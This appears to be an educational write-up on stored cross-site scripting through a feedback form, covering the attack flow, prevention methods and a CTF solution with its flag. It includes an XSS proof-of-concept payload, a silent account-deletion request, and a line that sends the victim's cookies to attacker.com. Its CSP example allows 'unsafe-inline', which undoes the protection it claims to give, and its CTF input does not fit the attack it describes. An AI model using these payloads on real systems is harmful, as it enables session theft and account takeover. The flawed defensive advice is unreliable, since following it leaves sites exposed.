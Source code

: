 # Stored XSS Attack via Feedback Form & Prevention

## How the Attack Works (Stored XSS)

### Attack Flow:
1. **Injection Point**: Malicious user submits JavaScript in a feedback form  
   Example payload:  
   ```html
   <img src=x onerror=alert(1337) />
   ```
   *(Proof-of-concept that verifies XSS vulnerability)*

2. **Storage**: Server saves the unsanitized input to database

3. **Execution**: When another user (e.g., admin) views the feedback:
   * Malicious script executes in their browser
   * Runs with the victim's permissions/session

4. **Impact**: Can perform any action the victim is authorized to do:
   ```javascript
   // Delete account silently
   fetch('/api/account/delete', { 
     method: 'POST', 
     credentials: 'include' 
   });
   
   // Steal session cookies
   fetch('https://attacker.com/steal?cookie='+document.cookie);
   ```

## Prevention Methods

### 1. Input Sanitization (Backend)
* **Remove/escape dangerous content before storage**:
  ```python
  # Django example
  from django.utils.html import escape
  cleaned_input = escape(user_input)
  ```

* **Use dedicated libraries**:
  * `DOMPurify` (Node.js/JavaScript)
  * `OWASP Java Encoder` (Java)
  * `htmlspecialchars()` (PHP)

### 2. Output Encoding (Frontend)
* **Modern frameworks auto-escape**:
  ```jsx
  // React example - safe by default
  function Feedback({ text }) {
    return <div>{text}</div>; // Auto-escaped
  }
  ```

* **Manual escaping for raw HTML**:
  ```javascript
  // UNSAFE:
  element.innerHTML = userContent;
  
  // SAFE:
  element.textContent = userContent;
  ```

### 3. Content Security Policy (CSP)
* **HTTP header to restrict script sources**:
  ```text
  Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'
  ```

### 4. Additional Protections
* **HttpOnly cookies**: Prevent JavaScript cookie access
* **CSRF tokens**: Required for state-changing requests
* **Framework protections**:
  * Django's template auto-escaping
  * Rails' `sanitize` helper
  * Laravel's Blade escaping

## CTF Challenge Solution

In this specific case, the flag was obtained by:

```
Form inputs: { name: "anything", message: "script" }
Flag: 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
```

*(Indicates the system had no XSS protections in place)*

## Key Takeaway

Always sanitize user input and encode output. Modern frameworks provide these protections by default - bypassing them requires intentional unsafe practices.